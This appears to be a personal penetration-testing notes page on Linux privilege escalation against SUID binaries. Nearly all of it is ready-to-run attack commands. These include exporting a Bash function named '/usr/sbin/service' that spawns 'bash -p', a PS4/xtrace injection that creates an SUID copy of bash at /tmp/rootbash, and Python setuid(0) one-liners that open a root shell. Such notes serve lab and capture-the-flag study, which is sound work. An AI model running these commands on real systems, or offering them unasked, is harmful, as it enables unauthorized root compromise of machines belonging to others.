 </div></div>

### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



## Bash versions <4.2-048
- Define shell **functions** with **names** that **resemble** file paths
- - then **export** those functions so that they are used **instead** of any actual **executable** at that file **path**.
- If we have an executable `strings /usr/local/bin/suid-env2`
`strings /usr/local/bin/suid-env2`
`/usr/sbin/service apache2 start`
- Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved)
```shell
function /usr/sbin/service { /bin/bash -p; }
```
- export the function:
```shell
export -f /usr/sbin/service
```
- Run the executable
## Bash <4.4
-  If we have an executable 
- In debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.
- Run the executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:
```shell
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```
- Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```shell
/tmp/rootbash -p
```

</div></div>


### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



set to root
```shell
python3 -c 'import os; os.setuid(0); os.system("whoami")'
```

set to root and open a bash 
```shell
python3 -c 'import os; os.setuid(0); os.system("whoami"); os.system("bash")'
```
